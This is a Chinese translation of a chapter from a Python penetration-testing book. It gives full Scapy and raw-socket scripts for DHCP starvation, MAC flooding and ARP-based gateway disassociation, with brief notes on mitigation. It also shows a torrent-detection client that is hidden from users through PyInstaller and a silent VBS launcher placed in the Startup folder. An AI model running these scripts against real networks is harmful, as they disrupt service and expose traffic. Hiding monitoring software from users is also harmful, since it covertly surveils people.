







# 四、网络攻击与防范

在前几章中，您学习了网络扫描和网络嗅探。在本章中，您将看到不同类型的网络攻击以及如何防止它们。本章将对网络管理员和网络管理员有所帮助。

在本章中，我们将介绍以下主题。

*   **DHCP****动态主机配置协议**饥饿攻击
*   交换机 MAC 泛洪攻击
*   通过原始套接字解除网关关联
*   洪流检测

到目前为止，您已经看到了 ARP 欺骗的实现。现在，让我们了解一种称为网络解除关联攻击的攻击。其概念与 ARP 缓存中毒相同。

# 技术要求

您需要在系统上安装 Python2.7.x。最后，要使用本书的 Git 存储库，用户需要安装 Git。

本章代码文件可在 GitHub 上找到：
[https://github.com/PacktPublishing/Python-Penetration-Testing-Essentials-Second-Edition/tree/master/Chapter04](https://github.com/PacktPublishing/Python-Penetration-Testing-Essentials-Second-Edition/tree/master/Chapter04)

查看以下视频以查看代码的运行：
[https://goo.gl/oWt8A3](https://goo.gl/oWt8A3)

# 饥饿攻击

在我们开始攻击之前，让我们先看看 DHCP 服务器是如何工作的。当您通过交换机（接入点）连接到网络时，您的机器会自动获取网络的 IP 地址。您可能想知道您的机器从哪里获得 IP。这些配置来自为网络配置的 DHCP 服务器。DHCP 服务器提供四个内容：IP 地址、子网掩码、网关地址和 DNS 服务器地址。但如果仔细分析，DHCP 服务器也会为您提供分配 IP 地址的租约。在 Windows 命令提示符中键入`ipconfig/all`命令。在以下屏幕截图中突出显示已获得租约和租约到期：



您可以在矩形中看到 DHCP 租约。在这次攻击中，我们将向 DHCP 服务器发送一个假请求。DHCP 服务器将带有`Lease`的 IP 分配给假请求。这样，我们将完成 DHCP 服务器的 IP 池，直到租约到期。为了执行攻击，我们需要两台机器：一台攻击者机器（必须是安装了 Scapy 和 Python 的 Linux）和一台配置了 DHCP 的 Linux 机器。两者必须连接起来。您可以使用 Kali 作为攻击，使用 CentOS 作为 DHCP 服务器。您可以从[配置 DHCP 服务器 http://l4wisdom.com/linux-with-networking/dhcp-server.php](http://l4wisdom.com/linux-with-networking/dhcp-server.php) 。

在学习代码和攻击之前，您必须了解 DHCP 服务器的工作原理：

.

从上图中，我们可以理解以下内容：

1.  客户端广播请求 DHCP 配置信息的**DHCP 发现**请求
2.  **DHCP 服务器**响应一条**DHCP 提供**消息，该消息包含一个 IP 地址和配置信息，用于租赁给客户端
3.  客户通过选择提供的地址来接受提供。作为响应，客户端广播**DHCP 请求**消息
4.  **DHCP 服务器**向客户端发送单播 DHCP ACK/应答消息，其中包含以下 IP 配置和信息：
    *   IP 地址：`192.168.0.120`
    *   子网掩码：`255.255.255.0`
    *   默认网关：`192.168.0.1`
    *   DNS 服务器：`192.168.0.2`
    *   租约：一天

有关更多说明，请参见以下 Wireshark 屏幕截图，如下所示：


在前面的屏幕截图中，租约显示为六小时。

让我们看看代码；这有点难理解，所以我把它分成了不同的部分，并解释了每个部分：

*   按如下方式导入基本库和模块：

```py
      from scapy.all import *
      import time
      import socket
      import struct
```

*   创建原始套接字以接收 IP 数据包，如下所示：

```py
      s = socket.socket(socket.PF_PACKET, socket.SOCK_RAW, 
      socket.ntohs(0x0800))
      i = 1
```

*   使用 while 循环连续发送数据包：

```py
      while True:
```

*   使用 Scapy 创建以太网和 IP 数据包，如下所示：

```py
    eth1 = Ether(src=RandMAC(),dst="ff:ff:ff:ff:ff:ff")
    ip1 = IP(src="0.0.0.0",dst="255.255.255.255")
```

*   使用 Scapy 创建 UDP 和 bootp 数据包，如下所示：

```py
    udp1= UDP(sport=68,dport=67)
    bootp1= BOOTP(chaddr=RandString(12,'0123456789abcdef'))
```

*   创建 DHCP 发现和 DHCP 请求数据包，如下所示：

```py
    dhcp1 = DHCP(options=[("message-type","discover"),"end"])
    dhcp2 = DHCP(options=[("message-type","request")])
    dhcp_discover = eth1/ip1/udp1/bootp1/dhcp1
    dhcp_discover[BOOTP].xid= 123456
```

*   只需使用 Scapy 发送 DHCP discover 数据包，并使用原始套接字接收响应，如下所示：

```py
    sendp(dhcp_discover)
    pkt = s.recvfrom(2048)
    num = pkt[0][14].encode('hex')
    ip_length = (int(num) % 10) * 4
    ip_last_range = 14 + ip_length
    ipheader = pkt[0][14:ip_last_range]
    ip_hdr = struct.unpack("!12s4s4s",ipheader)
    server_ip = socket.inet_ntoa(ip_hdr[1])
    obtained_ip = socket.inet_ntoa(ip_hdr[2])

```

*   使用从前面步骤获得的参数形成 DHCP 请求数据包，如下所示：

```py
    print "Obtained IP ",obtained_ip
    print "DHCP server IP ",server_ip
    dhcp_request = eth1/ip1/udp1/bootp1/dhcp2
    dhcp_request[BOOTP].xid= 123456
    name='master'+str(i)

    i =i+1
    dhcp_request[DHCP].options.append(("requested_addr", obtained_ip))
    dhcp_request[DHCP].options.append(("server_id", server_ip))
    dhcp_request[DHCP].options.append(("hostname", name))
    dhcp_request[DHCP].options.append(("param_req_list",
    b'x01x1cx02x03x0fx06x77x0cx2cx2fx1ax79x2a'))
    dhcp_request[DHCP].options.append(("end"))
```

*   发送请求包，并在`0.5`秒休息后发送下一个包，如下所示：

```py
    time.sleep(.5)
    sendp(dhcp_request)
```

代码名为`dhcp_starvation.py`，代码工作分为两部分。首先，攻击者机器发送发现数据包，然后 DHCP 服务器发送具有给定 IP 的 DHCP 提供数据包。在下一部分中，我们的代码提取给定的 IP 和服务器 IP，用给定的 IP 和服务器 IP 创建称为 DHCP 请求的新数据包，并将它们发送到 DHCP 服务器。在运行程序之前，请检查 DHCP 服务器中的 DHCP 租约文件，该文件位于**`\var\lib\dhcpd\dhcpd.lease`**：



您可以看到该文件为空，这意味着没有分配 IP。运行程序后，应填写文件，如以下屏幕截图所示：


前面的屏幕截图显示获得的 IP 表示 DHCP 的步骤 2 正在工作并已完成。程序成功发送了假 DHCP 请求。请参阅 DHCP 服务器租赁文件的屏幕截图：


前面的屏幕截图表明程序正在成功运行

# MAC 洪泛攻击

MAC 泛洪需要用大量请求泛洪交换机。**内容寻址内存**（**CAM**将交换机与集线器分离。它存储信息，例如带有物理端口号的连接设备的 MAC 地址。CAM 表中的每个 MAC 都分配了一个交换机端口号。有了这些信息，交换机知道在哪里发送以太网帧。凸轮工作台的尺寸是固定的。您可能想知道当 CAM 表收到大量请求时会发生什么。在这种情况下，交换机会变成一个集线器，所有端口上的传入帧都会被淹没，从而使攻击者能够访问网络通信。

# 开关如何使用凸轮工作台

交换机通过其物理端口学习所连接设备的 MAC 地址，并将该条目写入 CAM 表，如下图所示：


CAM 表格学习活动

上图分为两部分。在第一部分中，具有**MAC A**的计算机向具有**MAC B**的计算机发送**ARP**数据包。交换机学习数据包，从物理端口`1`到达，并在**CAM 表**中做一个条目，使得 MAC A 与端口`1`关联。交换机将数据包发送到所有连接的设备，因为它没有 MAC B 的 CAM 条目。在图的第二部分，具有 MAC B 的计算机响应。交换机得知它来自端口`2`。因此，交换机做出一个条目，说明 MAC B 计算机连接到端口`2`。

# MAC 洪水逻辑

当我们发送大量请求时，如上图所示，如果主机 a 使用不同的 MAC 发送虚假的 ARP 请求，那么交换机每次都会为端口`1`创建一个新条目，例如`A—1`、`X—1`、`Y—1`。有了这些假条目，CAM 表将变满，开关将开始像集线器一样工作。

现在，让我们按如下方式编写代码：

```py
from scapy.all import *
num = int(raw_input("Enter the number of packets "))
interface = raw_input("Enter the Interface ")

eth_pkt = Ether(src=RandMAC(),dst="ff:ff:ff:ff:ff:ff")

arp_pkt=ARP(pdst='192.168.1.255',hwdst="ff:ff:ff:ff:ff:ff")

try:
  sendp(eth_pkt/arp_pkt,iface=interface,count =num, inter= .001)

except : 
  print "Destination Unreachable "
```

前面的代码很容易理解。首先，它询问您要发送的数据包的数量。然后，对于接口，您可以选择`WLAN`接口或`eth`接口。`eth_pkt`语句形成一个带有随机 MAC 地址的以太网数据包。在`arp_pkt`语句中，使用目的 IP 和目的 MAC 地址形成`arp`请求包。如果您想查看完整的数据包字段，可以使用 Scapy 中的`arp_pkt.show()`命令。

`mac_flood.py`的 Wireshark 输出如下图所示：


MAC 洪泛攻击的输出

MAC 洪泛的目的是检查交换机的安全性。如果攻击成功，请在报告中标记为成功。为了减轻 MAC 洪泛攻击，请使用端口安全。端口安全性仅将传入流量限制为一组选定的 MAC 地址或数量有限的 MAC 地址和 MAC 洪泛攻击

# 通过原始套接字解除网关关联

在此攻击中，受害者将保持与网关的连接，但无法与外部网络通信。简言之，受害者将保持与路由器的连接，但无法浏览互联网。这种攻击的原理与 ARP 缓存中毒相同。攻击将向受害者发送 ARP 回复数据包，该数据包将使用另一个 MAC 更改受害者 ARP 缓存中网关的 MAC 地址。同样的事情也发生在网关中。

该代码与 ARP 欺骗的代码相同，只是有一些变化，解释如下：

```py
import socket
import struct
import binascii
s = socket.socket(socket.PF_PACKET, socket.SOCK_RAW, socket.ntohs(0x0800))
s.bind(("eth0",socket.htons(0x0800)))

sor = 'x48x41x43x4bx45x52'

victmac ='x00x0Cx29x2Ex84x7A'
gatemac = 'x00x50x56xC0x00x08'
code ='x08x06'
eth1 = victmac+sor+code #for victim
eth2 = gatemac+sor+code # for gateway

htype = 'x00x01'
protype = 'x08x00'
hsize = 'x06'
psize = 'x04'
opcode = 'x00x02'

gate_ip = '192.168.0.1'
victim_ip = '192.168.0.11' 
gip = socket.inet_aton ( gate_ip )
vip = socket.inet_aton ( victim_ip )

arp_victim = eth1+htype+protype+hsize+psize+opcode+sor+gip+victmac+vip
arp_gateway= eth2+htype+protype+hsize+psize+opcode+sor+vip+gatemac+gip

while 1:
  s.send(arp_victim)
  s.send(arp_gateway)
```

运行`netdiss.py`。我们可以看到代码中只有一个变化：`sor = 'x48x41x43x4bx45x52'`。这是一个随机 MAC，因为此 MAC 不存在

为了实施 ARP 缓存中毒攻击，受害者应该在 ARP 缓存中拥有网关的真实条目。

你可能想知道我们为什么使用`'x48x41x43x4bx45x52'`MAC。把它转换成 ASCII，你就会得到答案。

# 洪流检测

网络管理员的主要问题是停止在用户机器上使用 torrents。有时，一个小型组织或初创公司没有足够的资金购买防火墙来阻止 torrent 的使用。在组织中，用户使用 torrent 下载电影、歌曲等，这会占用大量带宽。在本节中，我们将看到如何使用 Python 程序消除此问题。我们的程序将在 torrent 程序运行时检测 torrent

该概念基于客户机-服务器体系结构。服务器代码将在管理计算机上运行，客户端代码将在用户的计算机上以隐藏模式运行。当用户使用 torrent 时，客户端代码将通知服务器计算机

首先，查看下面的服务器代码并尝试理解代码。代码名为`torrent_detection_server.py`：

*   按如下方式导入基本库：

```py
      import socket
      import logging
      import sys
```

*   为管理员打印消息。仅使用*Ctrl*+*C*停止程序，因为*Ctrl*+*C*由程序本身处理，插座将自动关闭，如下所示：

```py
      print "Welcome, torrent dection program started"
      print "Use only Ctrl+c to stop"
```

*   创建将事件记录在文件中的记录器，如下所示：

```py
      logger = logging.getLogger("torrent_logger")
      logger.setLevel(logging.INFO)
      fh = logging.FileHandler("torrent_dection.log")
      formatter = logging.Formatter('%(asctime)s - %(name)s - %      
      (levelname)s - %(message)s')
      fh.setFormatter(formatter)
      logger.addHandler(fh)
      logger.info("Torrent detection program started")
```

*   创建检测到的客户端列表，并定义服务器将在其上运行的服务器 IP 地址和端口，如下所示：

```py
      prcess_client = []
      host = "192.168.0.128"
      port = 54321
```

*   按如下方式创建 UDP 套接字：

```py
      s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
      s.bind((host,port))
```

*   创建一个 while 循环以持续收听。以下代码块接收来自客户端的消息，并将事件记录在日志文件中，如下所示：

```py
      while True:
        try:

          data, addr = s.recvfrom(1024)
          print "\a\a\a\a\a\a\a"
          if addr[0] not in prcess_client :
            print data, addr[0]
            line = str(data)+" *** "+addr[0]
            logger.info(line)
            line = "\n****************************\n"
            logger.info(line)
          prcess_client.append(addr[0])
        except KeyboardInterrupt:
          s.close()
          sys.exit()

        except:
          pass
```

现在让我们看看客户机的代码。打开`service.py`代码：

*   导入基本库和模块，如下所示：

```py
      import os
      import re
      import time
      import socket
      import getpass
```

*   定义服务器 IP 和服务器端口以使套接字如下所示：

```py
      host = "192.168.0.128"
      port = 54321
```

*   使用无限 while 循环，使程序保持活动状态，如下所示：

```py
      while True:
        try:
          s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
          name =socket.gethostname()
          user = getpass.getuser()
```

*   查看当前任务列表，并尝试在任务列表中查找 torrent。如果找到 torrent，请按如下方式将精心编制的消息发送到服务器：

```py
    response = os.popen('tasklist')
    for line in response.readlines():
      str1 = "Torrent Identified on host "+str(name)+" User "+str(user)
      if re.search("torrent", line.lower()):
        s.sendto(str1,(host,port))
        s.sendto(str1,(host,port))
        s.sendto(str1,(host,port))
        #s.send("")
        break

          s.close()
          time.sleep(30)
        except :
          pass
```

在前面的程序中，我使用`30`秒进行下一次迭代以获得快速结果。你可以根据自己的方便改变时间。如果流量非常大，您可以使用 15 分钟（`15*60`）。

为了运行和测试我们的程序，我们至少需要两台计算机。一个程序将在服务器上运行，由网络管理员处理。第二个程序将在客户机上运行

让我们一个接一个地运行代码，并研究我们的测试用例：torrent 运行时和 torrent 未运行时。首先，运行服务器程序。您可以在任何操作系统上运行服务器程序：



服务器程序正在运行；让我们运行客户端代码`service.py`，如下面的屏幕截图所示：



前面的程序只显示正在运行并持续扫描当前任务。正如我们在程序中定义的 30 秒，它在 30 秒后扫描当前任务。请参阅以下屏幕截图，这是在 Windows 任务管理器中运行的 torrent 服务：


因此，uTorrent 正在客户端计算机上运行。如果客户端代码找到包含 torrent 名称的任务，则会将消息发送到服务器。因此，在客户端程序中，我们使用的是`response = os.popen('tasklist')`行，它在命令提示符下运行 tasklist 命令，如下面的屏幕截图所示：


前面的屏幕截图显示 torrent 正在运行。

如果在客户端计算机上运行 torrent，则服务器将收到以下消息：



明白了！一台机器，主机名`Intel`、用户`Mohit`和 IP 地址`192.168.0.129`正在使用 torrent。客户端向我们发送了三条消息，但我们只显示了一条。我们正在使用 UPD，这是一种无连接协议。如果数据包在通信量中丢失，服务器和客户端将一无所知。这就是客户端发送三个数据包的原因。

为什么是 UDP 而不是 TCP？TCP 是一种面向连接的协议。如果服务器机器停机，则客户端机器上的程序将开始给出错误。

如果屏幕上的输出丢失，可以在日志文件中检查输出。打开`torrent_dection.log`：


现在您应该更好地了解 torrent 检测。但是我们的工作还没有完成。如果客户机上的用户知道某种检测程序正在运行，他们可能会停止该程序。我们必须让客户端代码以隐藏模式运行

# 在隐藏模式下运行程序

首先，我们必须将`service.py`程序更改为 Windows 可执行文件。为了将 Python 程序转换为 Windows 可执行文件，我们将使用 Pyinstaller

让我们将该文件更改为 Windows 可执行文件。复制`C:\PyInstaller-2.1`文件夹中的`service.py`代码文件。

打开命令提示符，浏览到`C:\PyInstaller-2.1`文件夹，运行以下操作：

```py
Python pyinstaller.py --onefile <file.py>
```

有关更多说明，请参见以下屏幕截图：



前面的屏幕截图是不言自明的。现在已经创建了可执行文件，可以通过单击它来运行它。单击时，它将打开命令提示屏幕。

现在以隐藏模式运行可执行程序

创建一个`service.vbs`文件，并在文件中写入以下行：

```py

Dim WinScriptHost
Set WinScriptHost = CreateObject("WScript.Shell")
WinScriptHost.Run Chr(34) & "%WINDIR%\service.exe" & Chr(34), 0
Set WinScriptHost = Nothing
```

在前面的文件中，我使用了`%WINDIR%`，意思是`Windows`文件夹；由于我在`C:`驱动器中安装了 Windows，`%WINDIR%`变成了`C:\Windows`。只需点击`service.vbs`。`service.exe`程序将作为守护进程运行，没有图形屏幕，只有后台处理。将`service.vbs`放入`Windows startup`文件夹，以便下次 Windows 启动时，`service.vbs`文件将自动执行。

我希望你喜欢这一章。

# 总结

在本章中，我们学习了网络攻击；使用我们的 Python 代码可以有效地执行 DHCP 饥饿攻击。Python 代码可用于非法 DHCP 服务器。MAC 洪泛攻击可以将交换机变成集线器。必须启用端口安全性以减轻攻击。网关解除关联攻击非常容易执行；攻击者可以使用此攻击骚扰用户。ARP 缓存中网关的静态条目可能是攻击的解决方案。虽然 Torrent 是被禁止的，但对于小型组织来说仍然是一个大问题。本章中提出的解决方案可以非常有效地抵御洪流。在下一章中，您将了解无线流量监控。您将学习无线帧、帧捕获和无线攻击